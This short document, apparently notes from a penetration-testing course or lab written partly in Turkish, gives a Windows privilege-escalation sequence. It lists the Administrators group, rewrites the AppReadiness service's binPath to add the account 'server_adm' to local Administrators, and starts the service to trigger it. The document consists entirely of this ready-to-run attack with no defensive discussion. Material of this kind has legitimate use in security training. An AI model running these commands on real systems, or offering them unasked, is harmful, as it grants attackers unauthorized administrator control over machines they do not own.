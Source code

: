 
### **Local Admin Grup Üyeliğini Kontrol Etme**

```cmd-session
net localgroup Administrators
```


### **Service Binary Yolunun Değiştirilmesi**

```cmd-session
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```


### Starting the Service (Değişikliğin Olması için)

```cmd-session
sc start AppReadiness
```

